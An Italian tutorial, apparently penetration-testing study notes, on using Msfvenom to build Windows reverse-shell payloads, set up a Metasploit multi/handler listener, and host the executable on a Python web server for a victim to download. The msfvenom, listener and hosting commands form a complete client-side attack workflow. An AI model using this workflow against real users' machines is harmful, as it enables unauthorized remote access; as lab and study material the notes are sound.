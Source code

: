 
# Msfvenom

Un **attacco client-side** è un attacco in cui si induce un client (cioè l'utente) ad eseguire un payload dannoso sul proprio sistema. Questo permette all’attaccante di ottenere l’accesso remoto al dispositivo della vittima. Questi attacchi si basano spesso su **tecniche di ingegneria sociale**, come l’invio di documenti infetti, link contraffatti, file eseguibili mascherati o PEs.

I **PE (Portable Executable)** sono file binari tipici dei sistemi Windows, con estensione `.exe` o `.dll`, che contengono codice eseguibile. Vengono spesso utilizzati per veicolare payload all’interno di attacchi client-side, poiché Windows li esegue direttamente se attivati dall’utente.

A differenza degli attacchi client-side, gli **attacchi server-side** mirano a sfruttare vulnerabilità direttamente su un servizio esposto da un server (come Apache, MySQL, SMB, ecc.), senza bisogno del coinvolgimento dell'utente.

In questo contesto si inserisce **Msfvenom**, uno strumento da riga di comando integrato in Metasploit Framework che consente di generare, personalizzare e codificare payload dannosi per diverse piattaforme. Msfvenom nasce dalla fusione di due utility precedenti:

- `msfpayload` → serviva a generare il payload.
- `msfencode` → serviva a codificare il payload per evitarne il rilevamento.

Oggi entrambe sono state rimpiazzate da `msfvenom`.

---

## Documentazione e Payload Disponibili

Per visualizzare la documentazione:
```bash
msfvenom
```

Per elencare tutti i payload disponibili:
```bash
msfvenom --list payloads
```

---

## Stage e No-Stage Payload

I **stage payload** sono payload modulari suddivisi in due fasi: un piccolo "stager" viene eseguito inizialmente e poi scarica il resto del payload. Questo permette di ridurre la dimensione iniziale e aumentare la flessibilità.

I **no-stage payload** invece sono monolitici: tutto il codice è contenuto in un unico eseguibile, e non richiedono un secondo stadio.

**Esempio di stage payload:**
- `windows/meterpreter/reverse_tcp`

**Esempio di no-stage payload:**
- `windows/shell_reverse_tcp`

---

## Generazione di un Payload

Per generare un payload, bisogna specificare:
- L’architettura (`-a`) – es. `x86` o `x64`
- Il payload (`-p`)
- L’IP e la porta dell’attaccante (`LHOST`, `LPORT`)
- Il formato (`-f`)

Esempio:
```bash
msfvenom -a x86 -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > /tmp/payload.exe
```

Per visualizzare tutti i formati supportati:
```bash
msfvenom --list formats
```

---

## Attivazione del Listener

Per ricevere la connessione reverse del payload, è necessario configurare un **listener** in Metasploit:
```bash
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST <IP_attaccante>
set LPORT <PORT>
run
```

> Il payload usato nel `multi/handler` **deve combaciare esattamente** con quello specificato in fase di generazione con `msfvenom`. In caso contrario, la sessione non verrà interpretata correttamente.

---

## Hosting del Payload

Per consegnare il file alla vittima, si può usare un server HTTP semplice:
```bash
sudo python3 -m http.server 80
```

Poi, basterà fornire alla vittima un link del tipo:
```
http://<IP_attaccante>/payload.exe
```

In ambienti di test, questo approccio consente di simulare efficacemente un attacco client-side, sfruttando la disattenzione o la mancanza di competenze della vittima.
